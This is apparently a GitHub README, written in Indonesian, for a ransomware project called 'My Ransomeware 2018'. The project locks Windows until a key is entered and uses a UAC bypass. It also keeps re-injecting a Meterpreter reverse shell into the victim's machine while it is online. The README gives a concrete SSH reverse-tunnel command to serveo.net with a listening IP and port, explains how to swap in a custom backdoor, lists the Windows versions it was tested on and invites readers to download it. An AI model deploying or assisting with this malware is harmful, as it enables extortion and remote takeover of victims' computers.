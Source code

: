 # My Ransomeware 2018

[Catatan]

- Jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

- Jangan merubah nama folder [VirusUI] atau mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe untuk mendapatkan akses UAC.

[Alat yang digunakan]

- Windows sub system linux (WSL) - Kali Linux

- Metasploit

- SSH

- VMWare

[Cara Kerja Software]

- Windows akan terkunci dan anda tidak bisa melakukan apa-apa karna system inti di nonaktifkan cara satu satunya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

- Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

- jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda dengan nama yang sama.


[SSH]

- Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

- [cmd] -> ssh -R 9998:127.0.0.1:4444 serveo.net


[Tested Works]

- Windows 10 versi up

- windows 8

- windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

- Edisi iseng - iseng sambil belajar, kalau mau coba silahkan tinggal unduh

- Saya bukan hacker ataupun cracker. saya suka mengulik sesuatu.
